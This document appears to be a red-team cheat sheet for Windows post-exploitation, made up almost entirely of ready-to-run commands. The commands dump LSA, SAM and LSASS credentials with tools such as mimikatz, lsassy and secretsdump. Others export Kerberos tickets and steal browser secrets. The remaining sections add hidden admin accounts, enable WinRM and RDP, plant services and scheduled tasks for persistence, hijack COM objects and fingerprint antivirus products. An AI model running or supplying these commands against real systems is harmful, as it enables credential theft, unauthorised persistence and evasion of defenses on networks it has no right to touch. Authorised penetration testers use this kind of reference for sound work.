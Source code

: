 # Post-Ex Windows

## **Dump secrets**

### LSA

```bash
crackmapexec smb perim_up.txt -u '<user>' -d '<domain>' -p '<pass>' --lsa
```

### SAM
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --sam

reg save hklm\sam .\sam reg save hklm\system .\system reg save hklm\security .\security 
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL

```
### LSASS 
```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> -M lsassy

lsassy -d '.' -u 'Administrateur' -H '<hash>' <ip>
lsassy -d <domain> -u <user> -p <pass> <ip>

./spraykatz.py -u <user> -p <password> -t <ip>

pypykatz lsa minidump lsass.dmp

procdump.exe --accepteula -ma lsass c:\WINDOWS\Temp\lsass.txt

.\mimikatz.exe "log" "privilege::debug" "sekurlsa::logonpasswords" exit
```

### Kerberos 

```bash
.\mimikatz.exe "log" "privilege::debug" "kerberos::list /export" exit

```

### Browser secrets

```bash
sharpchrome.exe


https://github.com/login-securite/DonPAPI

DonPAPI.py "$DOMAIN"/"$USER":"$PASSWORD"@"$TARGET"
```

## Create/add new local admin account 

```bash
net user add <user> <pass>
net localgroup "Administrators" <user> /add
```

## Enable WinRM

```bash
Enable-PSRemoting -SkipNetworkProfileCheck -Force
```

## Enable RDP

```bash
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

add user to RDP group

```bash
net localgroup "Remote Desktop Users" <user> /add
```

## Create service

```bash
New-Service -BinaryPathName C:\Users\sqlServer\Documents\system2.exe -Name syshell -DisplayName syshell -StartupType Automatic 
Start-Service syshell
```
or 

```
sc \\127.0.0.1 create ServiceName binpath=C:\windows\system32\calc.exe
```
> \192.168.1.2 is optional


To check if service working well, you can reboot like this: 

`wmic /node:192.168.1.2 os get buildnumber` then 

`wmic /node:192.168.1.2 os where buildnumber="<Number>" call reboot` 


## Execute binary using WMIC

```
wmic /node:127.0.0.1 process call create "C:\windows\system32\calc.exe"
```
>/node is optional


## Stop processus

Run this to get processid : `sc \\127.0.0.1 query ServiceName` 

then : `wmic /node:127.0.0.1 process where processid=<PID> call terminate` 
>/node is optional

and then `taskkill /S 127.0.0.1 /PID <PID> /f`
>/S is optional


## Create Scheduled tasks

```
schtasks /create /S 192.156.1.2 /tn <name> /sc once /sd 01/01/1910 /ru system /tr “C:\windows\system32\calc.exe”

Other 

schtasks /create /S 127.0.0.1 /tn OBLIGE /tr "C:\windows\system32\calc.exe" /sc once /ST 18:30
```
> ru <user>, and /S is optional
> To check if tasks has been created run this `schtasks /s 192.156.1.2 /query /tn <name>`



## COM hijack

```bash
schtasks /query /xml > tasks.xml
reg query "HKCR\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKCU\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKLM\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"
reg export "HKLM\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32" export.reg

# Change to HKCU and change dll
reg import export.reg /reg:64
reg query "HKCR\CLSID\{<COM_CLSID>}\Inprocserver32"
reg query "HKCU\software\classes\CLSID\{<COM_CLSID>}\Inprocserver32"

```

## Disconnect User 

`rwinsta /server:192.168.1.2 <sessionId>`
>to get sessionId please run this `qwinsta` 

## detection of the anti virus (AV)

run `fltmc` to get list of altitude, and search it into windows documentation : https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/allocated-altitudes

for exemple `389040  = 	SentinelOne`

AV range is : 320000 - 329998